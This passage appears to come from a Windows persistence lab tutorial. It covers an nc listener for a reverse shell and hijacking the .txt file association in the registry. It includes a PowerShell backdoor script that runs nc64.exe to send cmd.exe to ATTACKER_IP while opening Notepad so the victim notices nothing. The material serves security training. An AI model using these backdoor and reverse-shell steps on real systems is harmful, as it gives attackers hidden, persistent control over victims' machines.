 ### 10.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Let's start an nc listener to receive our reverse shell on our attacker's machine:

`user@AttackBox$ nc -lvp 4445`

If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully. 

### Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open `.txt` files; we can just go and check for the .txt subkey and find which Programmatic ID (ProgID) is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:

### 11.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:

### 12.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```backdoor2.ps1
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```
Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:

### 13.png
